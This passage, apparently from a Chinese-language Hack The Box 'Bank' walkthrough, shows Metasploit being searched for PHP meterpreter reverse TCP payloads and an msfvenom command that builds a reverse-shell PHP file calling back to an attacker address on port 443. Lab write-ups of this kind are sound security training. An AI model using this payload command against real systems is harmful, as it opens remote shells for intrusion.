 ![Screenshot-2020-05-19-at-20.58.43](img/c4fde945ea3e8d003358657c470e7f3a.png)

我启动 **Metasploit** 并搜索反向 TCP 有效负载。我使用以下命令

```
search php meterpreter reverse_tcp
```

我发现一个有趣的有效载荷，编号 594，这是一个**反向 TCP Stager** 。该负载通过反射 Dll 注入负载注入 meterpreter 服务器 DLL，并连接回攻击者

```
payload/php/meterpreter/reverse_tcp
```

现在让我们回到 **msfvenom** 来设计我们的漏洞

![Screenshot-2020-05-17-at-22.10.36](img/69edad575c6c87a0c55dc50cc4cd6b9f.png)

我使用以下命令

```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.36 lport=443 -f raw > HTBbankshell.php
```
